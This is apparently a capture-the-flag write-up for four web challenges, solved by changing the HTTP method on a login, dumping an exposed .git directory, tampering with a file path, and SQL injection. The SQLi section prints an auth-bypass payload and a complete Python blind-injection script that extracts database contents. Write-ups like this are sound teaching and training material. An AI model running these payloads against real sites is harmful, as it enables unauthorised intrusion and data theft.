








# keeping up with the credentials

## Description

I'm all about strong passwords. If you're not using one, you're just playing yourself.

This challenge requires something that can be acquired in any of the other web challenges.

## Solution

Here we've been given with a website looking like this.

 

Since we obtained the credentials of `admin:9f3IC3uj9^zZ` from @[breaking authentication](mention://575ed52d-d831-46b9-a70b-afad2ee03550/document/7bf4b60e-7a20-4606-9aa5-b092e8c12ebf) challenge, we try to login and we get to a debug page, which is not that useful.

Now usually when we login it's a `GET` request

 

Let's just try changing that to a POST request, and it'll send a `302 found` of `/admin.php` and going to `/admin.php` we get the flag.

 


# breaking authentication

## Description

"Say my username."

## Solution

Here we've been given with a website which looks like this.

 

The first line of thought would be to do SQLi. So writing `admin' OR '1'='1` we get admin panel access but there's nothing there so go ahead and do blind SQLi.


Writing this script we find the tables in the database schema-

```python
import requests

url = "http://23.179.17.40:58001/"

# Query to extract all table names
query = "(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = database())"

# Find the length first
k = 0
for i in range(1, 300):  # Tables might be many, increased range
    print("\r -> trying length ", i, end="")
    payload = '\' OR LENGTH(' + query + ') = \'' + str(i)
    data = {'username': 'admin', 'password': payload, 'login': 'Login'}
    r = requests.post(url, data=data, allow_redirects=True)
    if r.url.endswith("/admin.php"):
        print(f"\n[+] Found length of table names output: {i}")
        k = i
        break

if k == 0:
    print("[-] Length of response is greater than 300, adjust range")
    exit()

returnval = ""
q2 = '\' OR ASCII(SUBSTRING(' + query + ','

for i in range(1, k + 1):
    low = 32
    high = 126
    while low <= high:
        mid = (low + high) // 2
        # Prepare payload to check if character ASCII <= mid
        payload = q2 + str(i) + ",1)) <= '" + str(mid)
        data = {'username': 'admin', 'password': payload, 'login': 'Login'}
        r = requests.post(url, data=data, allow_redirects=True)

        if r.url.endswith("/admin.php"):
            # ASCII code is <= mid
            high = mid - 1
        else:
            # ASCII code is > mid
            low = mid + 1

    found_char = chr(low)
    returnval += found_char
    print(f"[+] Found character {i}: {found_char}")

print(f"\n[+] Final extracted table names: {returnval}")
```

The tables we find are `users` and `secrets`

In the secrets table, the columns are name and value, and altering the query to 

`query = "(SELECT GROUP_CONCAT(password) FROM users)"`

we get the flag: `CIT{36b0efd6c2ec7132}`

# commit & order: version control unit

## Description

In software development, the repository is represented by two separate yet equally important branches...

## Solution

Here we've been given a website which looks like this.

 

Since it talks about commit order and version control, we proceed to `/.git/HEAD` endpoint giving another endpoint to `ref: refs/heads/master`

From here, we use `GitTools`, specifically `Dumper` to get all the folders from the site and `Extractor` to extract the source code prior to each commit.

After extracting, we see that there are 5 folders with their respective commits.

 

We examine the source code for each of the folders and in the `commit: 1-68f8fc..` we see the source code:

```markup
<div class="warning-banner">
      <svg width="24" height="24" fill="currentColor" viewBox="0 0 24 24">
        <path d="M1 21h22L12 2 1 21zm12-3h-2v2h2v-2zm0-8h-2v6h2v-6z" />
      </svg>
      This admin panel is under construction. No actual functionality is available yet. But here, have this: Q0lUezVkODFmNzc0M2Y0YmMyYWJ9
    </div> 
 </div>
```

We find a base64 encoded text and decoding it we obtain: `CIT{5d81f7743f4bc2ab}`

# how I parsed your JSON

## Description

"This is the story of how I defined your schema."

The flag is in secrets.txt

## Solution

Here we've been given a website which looks like this.

 

This application uses `FlaskMyAdmin` which uses SQL like syntax, and our aim is to access secrets.txt.

In the site itself it defaults the `employee.json` table to `employee`. Hence to obtain the flag we'd have to intercept the request on Burp Suite and alter the request to access `/app/secrets.txt.txt`

 
 Doing this we obtain the flag: `CIT{235da65aa6444e27}`